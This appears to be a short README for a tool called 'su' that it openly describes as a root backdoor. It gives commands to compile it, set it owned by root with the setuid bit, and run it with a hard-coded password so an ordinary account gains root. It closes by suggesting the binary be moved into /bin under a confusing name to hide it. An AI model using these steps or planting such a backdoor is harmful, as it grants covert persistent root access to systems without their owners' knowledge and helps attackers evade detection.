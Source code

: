 # su

root backdoor for suid

Compile：
gcc -O2 -Wall -Wextra -o su su.c

Execute the execution with the root account：

```
    sudo chown root:root su
    sudo chmod u+s su
```

After that, you can use a normal account to get root privileges

```
  ./su 88e280e118c459ada723c50625d172c9
```

You can move the program to the /bin directory and change it to a more confusing name.

